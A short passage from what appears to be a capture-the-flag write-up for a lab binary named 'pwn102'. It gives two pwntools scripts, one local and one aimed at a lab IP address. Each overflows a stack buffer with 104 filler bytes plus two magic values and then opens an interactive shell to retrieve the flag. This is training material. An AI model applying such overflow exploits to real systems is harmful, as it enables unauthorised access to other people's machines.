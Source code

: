 ```python
#!/usr/bin/env python
from pwn import *


sh = process('./pwn102')
#sh = host = remote('', , typ='ipv4')

payload = b"A" * 104 + p32(0xc0d3) + p32(0xc0ff33)

sh.sendline(payload)
sh.interactive()
```



构造远程payload获取flag

```python
#!/usr/bin/env python
from pwn import *


#sh = process('./pwn102')
sh = host = remote('10.10.62.184',9002)

payload = b"A" * 104 + p32(0xc0d3) + p32(0xc0ff33)

sh.sendline(payload)
sh.interactive()

```

![image-20231116125210557](images/pwn101%E9%9D%B6%E5%9C%BA.assets/image-20231116125210557.png)

